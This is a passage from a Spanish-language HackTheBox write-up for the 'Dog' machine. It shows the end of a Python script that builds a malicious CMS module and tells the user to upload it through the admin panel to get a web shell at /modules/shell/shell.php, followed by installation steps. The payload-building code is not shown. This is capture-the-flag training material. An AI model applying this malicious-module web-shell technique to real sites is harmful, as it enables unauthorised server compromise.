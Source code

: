 ```python
    print(f"Módulo malicioso generado: {tar_filename}")
    time.sleep(2)

    print(f"Ve a {url}/admin/modules/install y sube el archivo {tar_filename} para instalación manual.")
    time.sleep(2)

    print(f"Tu shell estará en: {url}/modules/shell/shell.php")

if __name__ == "__main__":
    import sys
    if len(sys.argv) < 2:
        print("Uso: python script.py [url]")
    else:
        main(sys.argv[1])
```

Usando este script obtenemos el modulo listo para instalar.

![alt text](/assets/img/writeups/hackthebox/dog_htb_s7/image-8.png)

Para instalar el módulo, en el panel de administración navegamos hasta functionalidades -> instalar módulos nuevos

![alt text](/assets/img/writeups/hackthebox/dog_htb_s7/image-9.png)

